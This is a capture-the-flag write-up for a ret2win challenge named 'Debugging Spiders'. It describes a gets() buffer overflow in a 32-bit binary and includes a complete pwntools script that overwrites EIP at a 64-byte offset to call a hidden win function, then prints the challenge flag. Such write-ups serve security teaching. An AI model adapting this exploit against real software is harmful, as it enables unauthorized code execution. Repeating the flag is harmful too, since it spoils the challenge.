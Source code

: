 ```yaml
---
description: ret2win
---
```


# Debugging Spiders

## Problem

<details>

<summary>Description</summary>

Your friend is a lazy developer who likes spiders a lot for some reasons. One day, he is making a new, refined app called new\_spider. He brags about how this app is so sophisticated it can give you a flag by using one of its function. Sadly, it is yet to be implemented. CAn you, by force, make the program run the yet to be implemented function?

```c
nc 34.124.192.13 27302
```

</details>

## Solution

Basic file check and checksec reveals that the binary is ELF 32-Bit, dynamically linked not stripped and the protection enabled is NX and partial RELRO

<figure><img src="../../../.gitbook/assets/image_2023-05-15_001730273.png" alt="" width="365"><figcaption><p>Decompiled Main Function</p></figcaption></figure>

Looking at the decompiled main function, its calling the `gets()` function which don't specity how much buffer it will read. So a Buffer Overflow is a possibility here.

<figure><img src="../../../.gitbook/assets/image_2023-05-15_002026525.png" alt=""><figcaption><p>Decompiled secret_spider Function</p></figcaption></figure>

We also noticed that there's a secret function that's never called named `secret_spider()`. Taking a look at it, it seems obvious that this is the win function.&#x20;

<figure><img src="../../../.gitbook/assets/image_2023-05-15_002208774.png" alt=""><figcaption><p>Offset</p></figcaption></figure>

Next we use to gdb-pwndbg's cyclic tool to determine the offset to the EIP and it was found at 64 bytes. Next I have written the following code to get the flag. Run with `python solve.py REMOTE` to run it againts the server&#x20;

{% code title="Solve.py" lineNumbers="true" fullWidth="false" %}
```python
#!user/bin/python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './spiders'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'
host = '34.124.192.13'
port = 27302

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(host, port, *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

io = start()

# =========================================================
#                         ADDRESSES
# =========================================================
win = 0x080491a6

# =========================================================
#                         EXPLOITS
# =========================================================

# Got manually through cyclic gdb-pwndbg
offset = 64

# flattening  payload here
payload = flat({
    offset: [
        win
    ]
})

# sending payload
io.sendline(payload)

io.interactive()
```
{% endcode %}

## Flag

> _**FindITCTF{Ju57\_7h3\_W4y\_1t\_iz}**_
